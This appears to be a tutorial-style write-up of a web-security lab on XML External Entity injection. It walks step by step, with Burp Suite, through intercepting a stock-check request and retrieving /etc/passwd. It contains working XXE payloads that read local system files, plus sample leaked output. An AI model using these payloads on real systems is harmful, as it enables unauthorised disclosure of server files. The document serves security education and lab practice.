 # Exploiting XXE to Extract Files 🚨

XXE (XML External Entity) is a vulnerability that allows attackers to extract files from a server by manipulating XML code. In this guide, we will walk through a step-by-step example of exploiting XXE to retrieve the `/etc/passwd` file. 💡

## Steps to Perform the Attack

### 1. Prepare XML for the Attack 📝

To perform an XXE injection:

1. **Add or modify the DOCTYPE** to define an external entity pointing to the target file path.
2. **Modify the XML data** to inject the external entity into the desired value.

Example of the original XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
```

XXE payload to extract the `/etc/passwd` file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

### 2. Executing the Attack 💻

**Step 1**. Define the DOCTYPE and external entity:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

**Step 2**. Use the external entity in `productId`:
```xml
<productId>&xxe;</productId>
```

**Result**: The application response might look like this:
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Lab Example 🛠️

### 1. Getting Started
You are greeted with a list of products:

![Product List](https://github.com/user-attachments/assets/7732ce0b-262f-4416-aebe-a7af11b5d714)

---

### 2. Analyzing the Request
Navigate to any product, enable a proxy tool (e.g., Burp Suite), and click the **"Check Stock"** button:

![Stock Check Button](https://github.com/user-attachments/assets/be6726cc-64f5-4093-b301-7923e3d88d9c)

---

### 3. Intercepting the Request
In **HTTP History**, locate the POST request and send it to **Repeater** for analysis. Observe that stock checking is performed via XML:

![POST Request](https://github.com/user-attachments/assets/028c10b5-e477-45f5-8101-8a056ed72651)

---

### 4. Injecting the Payload 🚀

Insert the following code between the XML declaration and the `stockCheck` element:
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Change the `productId` value to `&xxe;`:

![Injecting XXE](https://github.com/user-attachments/assets/22cbd669-befa-4e8b-9250-da047534f851)

---

### 5. The Result
After sending the request, the response reveals the content of the `/etc/passwd` file:

![Output of /etc/passwd](https://github.com/user-attachments/assets/7c506f3a-d652-4bad-820c-2b61fa561bf5)

---

## Testing Tips 🔍

- **Test each XML node** for potential entity injection.
- Ensure the server includes the result in its response.
- Use proxy tools (e.g., Burp Suite) to analyze and modify requests.
